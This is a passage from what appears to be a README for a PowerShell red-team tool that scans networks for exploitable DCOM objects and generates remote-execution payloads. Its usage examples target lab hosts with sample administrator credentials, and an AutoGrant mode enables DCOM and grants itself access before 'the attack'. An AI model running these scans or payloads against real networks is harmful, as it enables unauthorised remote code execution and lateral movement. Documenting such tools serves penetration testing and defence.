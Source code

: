   2. Check whether the `MMC20.Application` (ProgID) object is accessible from the attacker machine to the `DC01` host without first querying and verifying the access list of the DCOM object.

            PS> Invoke-DCOMObjectScan -Type Single -ObjectName "MMC20.Application" -HostList DC01 -SkipPermissionChecks -CheckAccessOnly -Verbose

  3. Validates whether the `MMC20.Application` (ProgID) is applicable through `10.211.55.4/24` ip addresses range. If exists, he tool will try to enumerate the information about it. (using the current logged-on user session).

            PS> Invoke-DCOMObjectScan -Type Single -ObjectName "MMC20.Application" -Hostlist "10.211.55.4/24" -CheckAccessOnly -Verbose

  4. Validates if the `{00020812-0000-0000-C000-000000000046}` CLSID through `10.211.55.4` ip address object exists and accessible. If exists, the tool will resolve the information about it. (By using `lab\administrator` credentials).

            PS> Invoke-DCOMObjectScan -Type Single -ObjectName "{00020812-0000-0000-C000-000000000046}" -Hostlist "10.211.55.4" -CheckAccessOnly -Username "lab\administrator" -Password "Aa123456!" -Verbose   

  5. Scans all the objects stored on a specified path (e.g. `C:\Users\USERNAME\Desktop\DVS\objects.txt`) through `10.211.55.4` ip address, and finds the function list located in the specified file like `vulnerable.txt` using the `lab\administrator` credentials with the _following configuration_:  
        *Max depth:* 4  
        *Max results:* 1 (1 result for each object)  
        *AutoGrant mode:* If we don't have access to the object or if the DCOM feature is disabled, enable the DCOM feature and perform automatic grant to the relevant DCOM object.  
        Finally, revert the machine to the same state as before the attack.

            PS> Invoke-DCOMObjectScan -MaxDepth 4 -Type List -ObjectListFile "C:\Users\USERNAME\Desktop\DVS\objects.txt" -FunctionListFile "C:\Users\USERNAME\Desktop\DVS\vulnerable.txt" -AutoGrant -Username "lab\administrator" -Password "Aa123456!" -Hostlist "10.211.55.4" -MaxResults 1 -Verbose

  6. Scans all the objects stored on the available remote machines from the `10.211.55.1/24` range and finds potential vulnerable functions from the list located on the selected file (e.g. `C:\Users\USERNAME\Desktop\DVS\vulnerable.txt`).

            PS> Invoke-DCOMObjectScan -MaxDepth 4 -Type All  -FunctionListFile "C:\Users\USERNAME\Desktop\DVS\vulnerable.txt" -Hostlist "10.211.55.1/24" -Verbose


#### Get-ExecutionCommand

Get-ExecutionCommand function allows to generate a PowerShell payload that will interact and execute with the remote DCOM function with the relevant parameters.
* Examples:
  1. Checks if the principal-identity is granted to interact with `{00020812-0000-0000-C000-000000000046}` CLSID object through `10.211.55.4` ip address using `lab\administrator` credentials, then it will generates the execution command.

            PS> Get-ExecutionCommand -ObjectName "{00020812-0000-0000-C000-000000000046}" -ObjectPath "DDEInitiate" -HostList "10.211.55.4" -Username "lab\Administrator" -Password "Aa123456!" -Verbose


  2. Checks for DCOM access,  
        In case the principal-identity doesn't have the necessary permissions or the DCOM feature is disabled, the tool will enable the DCOM feature, grants identity access and interacts with `MMC20.Application` (ProgID) object through `10.211.55.4` ip address using `lab\administrator` credentials, and will generates you the execution command.  
        Finally, it will revert the machine to the same state as before the attack.
